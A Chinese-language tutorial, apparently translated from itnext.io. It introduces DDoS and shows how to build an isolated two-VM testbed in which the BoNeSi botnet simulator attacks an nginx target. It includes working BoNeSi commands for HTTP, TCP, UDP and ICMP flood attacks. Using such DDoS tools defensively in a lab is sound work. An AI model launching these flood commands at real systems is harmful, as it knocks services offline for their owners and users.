







# DDoS 简介 BoNeSi 工具之旅。

> 原文：<https://itnext.io/ddos-intro-journey-to-bonesi-tool-8b43d53228ac?source=collection_archive---------5----------------------->

**什么是分布式拒绝服务攻击(DDoS)？**



摘自我的笔记本:什么是 DDoS？僵尸网络？(下面的链接)

**常见攻击类型:**



摘自我的笔记本:DDoS 攻击的常见类型(链接如下)

DDoS 的概念性介绍在下面的手册中。(免费)

**DDoS 的口袋书可以在以下链接免费下载:**
[https://www . slide share . net/SakthiSaravananShanm/distributed-denial-of-services-DDoS-attacks-conceptual-intro](https://www.slideshare.net/SakthiSaravananShanm/distributed-denial-of-services-ddos-attacks-conceptual-intro)

有许多 DDoS 缓解工具和策略。我们必须仔细选择和准备我们的系统。为了强调我们的系统，*一个流行的僵尸网络模拟器工具是* **BoNeSi** 。



注意:DDoS 缓解系统应该是可信的:)而不是 DDoS 攻击者的系统。

让我们准备一个简单的测试平台，包括 BoNeSi 工具来模拟僵尸网络。

**必备工具:**

*   VirtualBox 已安装[[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads)]
*   Ubuntu 服务器镜像[[https://releases.ubuntu.com/20.04/](https://releases.ubuntu.com/20.04/)

**准备:**

我们应该记住，DDoS 攻击建议在封闭的测试床(隔离的)下运行。所以(但是)在创建隔离网络之前，让我们通过在攻击者的机器上安装 BoNeSi 工具和在受害者的机器上安装 Nginx 服务器来准备设置。

*   使用下载的 Ubuntu 映像，使用 VirtualBox 启动两台虚拟机。

> *姑且称这两台机器为 BoNeSi & BoNeSi-Target。
> — BoNeSi 虚拟机将运行 BoNeSi 工具来创建 DDoS 攻击。
> — BoNeSi-Target 将运行一个简单的 nginx 服务器(作为受害者)。*

*   使用简单的 NAT 网络适配器启动机器(仅)> > > >[稍后会移除]。

—这是为了下载所需的插件和工具。

*   一旦虚拟机准备就绪！！！

—登录 BoNeSi 机器安装 BoNeSi 工具。

*   首先，安装 BoNeSi 依赖库来编译 BoNeSi 工具。

```
sudo apt install build-essential
sudo apt install libpcap-dev
sudo apt install libnet1-dev
sudo apt install autoconf
sudo apt install automake
sudo apt install gcc
sudo apt install git
sudo apt install make
```

*   然后通过运行以下命令安装 BoNeSi。

```
git clone [https://github.com/Markus-Go/bonesi.git](https://github.com/Markus-Go/bonesi.git) 
autoreconf -f -i
./configure
make
make install
```

> 此时此刻，BoNeSi 应该已经准备好了。尝试运行' bonesi '命令，您应该能够看到下面的输出。



> ***注:*** *万一你在一个没有互联网的系统里。您可以将库和 BoNeSi repo SCP 到您的机器中。首先使用下面的命令从有互联网的系统下载所需的二进制文件:(用库名代替<包> )*

```
apt-get download $(apt-rdepends <package>|grep -v "^ "|grep -v "libc-dev")
```

这将创建一个. deb 包。SCP 这些。deb 打包到 BoNeSi 机器上，运行下面的命令进行安装:(从复制的位置)

```
sudo dpkg -i *.deb
```

—登录 BoNeSi-Target 机器安装 Nginx 服务器。这将像一个受害者服务使用以下命令。

```
sudo apt install docker.io
sudo docker pull nginx
```

*** **试验台现已为实际配置做好准备** ***

**设置配置:**

*   从 VirtualBox 保存虚拟机状态并关闭机器。
*   删除(取消选中 NAT 网络适配器选项)，再次使用内部网络选项启动虚拟机(隔离环境)。



VirtualBox 内部网络适配器设置

```
 **Note:** Before starting the VM, go to Setting tab for each VM and select Internal Network as Network Adaptor in the Network Tab.
- Let's name the Internal Network as *(intnet1) => you can change it.* ** Select the same 'Internal Network' (intnet1) for both the VMs **
```

*   如果您注意到在使用内部网络选项(使用“ifconfig -a”命令)启动虚拟机后，虚拟机内部的 IP 配置，您将不会看到为该接口配置的 IP。您必须使用文件“/etc/net plan/00-installer-config . YAML”中的以下内容对其进行静态配置。

> 注意:正确使用接口名称，在我的例子中 enp0s10 是名称。



```
**Note:** 
*Gateway should be pointing to BoNeSi machine's IP from BoNeSi-Target machine. Verify using,*sudo ip route | grep ^defaultOtherwise, you might face this issue:
[https://github.com/Markus-Go/bonesi/issues/7](https://github.com/Markus-Go/bonesi/issues/7)
```

*   然后运行“sudo netplan apply”命令，并在需要时使用“sudo reboot”重新启动系统。
*   此时，应该已经为接口配置了 IP。
*   使用“ping”命令验证虚拟机之间的连接，应该会成功。

现在使用下面的命令启动 BoNeSi-Target 机器中的 Nginx 服务器:

```
sudo docker run -d --network="host" nginx:latest
sudo docker ps
```

现在，我们的隔离网络中有两台虚拟机。一个在端口 80 上运行 Nginx 服务器，另一个使用 BoNeSi 工具。是时候使用下面的示例命令从 BoNeSi 工具向 Nginx 服务器发起 DDoS 攻击了。

> ***注意:*** *命令参数中使用的 my-ip.txt 文件不应包含属于内部网络的 ip，否则您将面临此问题。*
> [https://github.com/Markus-Go/bonesi/issues/11](https://github.com/Markus-Go/bonesi/issues/11)

**HTTP 洪水请求:**

```
sudo bonesi -p tcp -u / -d enp0s10 -i my-ip.txt 192.168.56.120:80
```

**TCP 泛滥请求:**

```
sudo bonesi -p tcp -d enp0s10 -i my-ip.txt 192.168.56.120:80
```

**UDP 泛洪请求:**

```
sudo bonesi -p udp -d enp0s10 192.168.56.120:80
```

**ICMP 洪水请求:**

```
sudo bonesi -p icmp -d enp0s10 192.168.56.120:80
```



抽样输出

有许多令人兴奋的选项可以产生各种类型的攻击(包括僵尸网络计数等等)。您可以在 BoNeSi 命令帮助上进一步探索。

我希望这篇文章在某种程度上有助于理解 DDoS 和 BoNeSi 工具。

> 感谢 Ankur Srivastava 和 Vishal Mansur 为我提供了使用这个工具的机会。
> 
> 感谢马努·马修斯和卡比尔·T 对我能力的信任。这真的改变了我的职业生涯！